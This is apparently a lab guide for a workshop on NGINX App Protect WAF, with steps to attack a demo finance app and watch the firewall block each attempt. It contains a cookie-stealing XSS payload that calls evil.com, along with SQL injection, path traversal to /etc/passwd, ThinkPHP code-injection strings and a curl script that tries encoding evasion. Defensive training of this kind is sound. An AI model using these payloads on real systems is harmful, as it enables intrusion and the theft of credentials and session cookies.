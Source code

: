 Access the Application and test the NGINX App Protect WAF to see how it works in action
--------------------------------------------------------------------------------------- 


Now that NGINX App Protect WAF is enabled, let's test its ability to protect against Layer 7 attacks. Follow these steps:

Launch the Firefox browser and open Arcadia Finance app:

        .. note::  Make sure you get the nginx-ingress EXTERNAL-IP with commmand ``oc get svc --namespace=nginx-ingress``

    #. In the Browser, open NGINX Ingress Controller URL to access Arcadia app (replace with the nginx-ingress EXTERNAL-IP): http://EXTERNAL-IP/
    #. Click on ``Login`` and use the credentials ``matt:ilovef5``
    #. You should see all the apps running (main, back, app2 and app3)
    #. Execute the same XSS attack we did in Module 1 by appending ``?a=<script>`` to the end of the application URL. Observe that the attack is now blocked and the user is provided with a support ID.

        .. code-block:: html
            
                The requested URL was rejected. Please consult with your administrator.
            
                Your support ID is: 5374014569933997707
            
                [Go Back]
                
        .. note:: Did you notice the blocking page is similar to F5 ASM and Adv. WAF ?


        .. image:: ./pictures/image18.png
        
    #. Execute the second attack by appending ``?item='><script>document.location='http://evil.com/steal'+document.cookie</script>`` to the application URL, and observe the results

        .. image:: ./pictures/image19.png 

    #. Feel free to execute any attacks you would like and observe the results.

Congratulations on securing your application!


**Here are some optional attacks you can try (Optional)**

.. note:: Execute the attack by appending such string as ``?hfsagrs=-1+union+select+user%2Cpassword+from+users+--+`` to the end of the application URL. 

- SQL Injection - ``GET /?hfsagrs=-1+union+select+user%2Cpassword+from+users+--+``
- Remote File Include - ``GET /?hfsagrs=php%3A%2F%2Ffilter%2Fresource%3Dhttp%3A%2F%2Fgoogle.com%2Fsearch``
- Command Execution - ``GET /?hfsagrs=%2Fproc%2Fself%2Fenviron``
- HTTP Parser Attack - ``GET /?XDEBUG_SESSION_START=phpstorm``
- Predictable Resource Location Path Traversal - ``GET /lua/login.lua?referer=google.com%2F&hfsagrs=%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd``
- Cross Site Scripting - ``GET /lua/login.lua?referer=google.com%2F&hfsagrs=+oNmouseoVer%3Dbfet%28%29+``
- Informtion Leakage - ``GET /lua/login.lua?referer=google.com%2F&hfsagrs=efw``
- HTTP Parser Attack Forceful Browsing - ``GET /dana-na/auth/url_default/welcome.cgi``
- Non-browser Client,Abuse of Functionality,Server Side Code Injection,HTTP Parser Attack - ``GET /index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=HelloThinkPHP``
- Cross Site Scripting - ``GET / HTTP/1.1\r\nHost: <ATTACKED HOST>\r\nUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0\r\nAccept: */*\r\nAccept-Encoding: gzip,deflate\r\nCookie: hfsagrs=%27%22%5C%3E%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E\r\n\r\n"``


**and many more from bash script below (Just for your information)**

                .. note:: Execute the attack by running the following bash script from the terminal window 

        .. code-block :: bash

                #!/bin/bash
                echo "------------------------------"
                echo "Starting security testing..."
                echo "------------------------------"
                echo ""
                echo ""

                # Get the external IP address of the NGINX Ingress Controller
                EXTERNAL_IP=$(oc get service my-nginx-ingress-controller-nginx-ingress -n nginx-ingress | awk 'NR==2{print $4}')

                echo "---------------------------------------------------------------------"
                echo "Multiple decoding"
                echo "Sending: curl -k 'http://$EXTERNAL_IP/three_decodin%2525252567.html'"
                echo "---------------------------------------------------------------------"

                # Send a request with multiple decoding
                curl -k "http://$EXTERNAL_IP/three_decodin%2525252567.html"
                sleep 3

                echo "-----------------------------------------------------------------------------"
                echo "Apache Whitespace"
                echo "Sending: curl -k 'http://$EXTERNAL_IP/tab_escaped%09.html'"
                echo "-----------------------------------------------------------------------------"

                # Send a request with Apache whitespace
                curl -k "http://$EXTERNAL_IP/tab_escaped%09.html"
                sleep 3

                echo "-----------------------------------------------------------------------------"
                echo "IIS Backslashes"
                echo "Sending: curl -k 'http://$EXTERNAL_IP/regular%5cescaped_back.html'"
                echo "-----------------------------------------------------------------------------"

                # Send a request with IIS backslashes
                curl -k "http://$EXTERNAL_IP/regular%5cescaped_back.html"
                sleep 3

                echo "-----------------------------------------------------------------------------"
                echo "Carriage Return Escaping"
                echo "Sending: curl -k 'http://$EXTERNAL_IP/carriage_return_escaped%0d.html?x=1&y=2'"
                echo "-----------------------------------------------------------------------------"

                # Send a request with carriage return escaping
                curl -k "http://$EXTERNAL_IP/carriage_return_escaped%0d.html?x=1&y=2"
                sleep 3

                echo "-----------------------------------------------------------------------------"
                echo "Cross site scripting"
                echo "Sending: curl -k 'http://$EXTERNAL_IP/%25%25252541PPDATA%25'"
                echo "-----------------------------------------------------------------------------"

                # Send a request with cross-site scripting payload
                curl -k "http://$EXTERNAL_IP/%25%25252541PPDATA%25"



Security Logging
#################

To verify that F5 Application Protection WAF is logging security events, follow these steps:

#. Get the local syslog server POD.  

        In the terminal window, copy the below text and paste+enter:

        .. code-block:: bash
                
                oc get pod -o wide

        Example: 

        .. code-block:: bash

                [lab-user@bastion app-protect-waf]$ oc get pod -o wide
                NAME                       READY   STATUS    RESTARTS   AGE   IP            NODE                                         NOMINATED NODE   READINESS GATES
                app2-6bd5b4fbd7-fdcp2      1/1     Running   0          70m   10.128.2.51   ip-10-0-186-204.us-east-2.compute.internal   <none>           <none>
                app3-5699b95596-2fvgv      1/1     Running   0          70m   10.128.2.52   ip-10-0-186-204.us-east-2.compute.internal   <none>           <none>
                backend-79c6bcf85c-9zdhl   1/1     Running   0          70m   10.129.2.41   ip-10-0-241-74.us-east-2.compute.internal    <none>           <none>
                main-584fc64db4-kz5c8      1/1     Running   0          70m   10.131.0.22   ip-10-0-223-88.us-east-2.compute.internal    <none>           <none>
                syslog-bb47bd798-mhh64     1/1     Running   0          25m   10.129.2.46   ip-10-0-241-74.us-east-2.compute.internal    <none>           <none>

#. Examine the logging matching the support ID of the attack
       
        In the terminal window, copy the below text and paste+enter:

        .. code-block:: bash

                oc exec -it pod/syslog-bb47bd798-mhh64  -- cat /var/log/messages | grep 7175144470433567675

        Where ``pod/syslog-bb47bd798-mhh64`` is the name of the pod and container where the syslog server is running. ``7175144470433567675`` is support ID of the attack.

        Example: 
               
                .. image:: ./pictures/image13.png

Congratulations on completing the Lab! You have learned how to deploy the NGINX App Protect WAF in Kubernetes and how to use the NGINX App Protect WAF to protect your applications from attacks.




        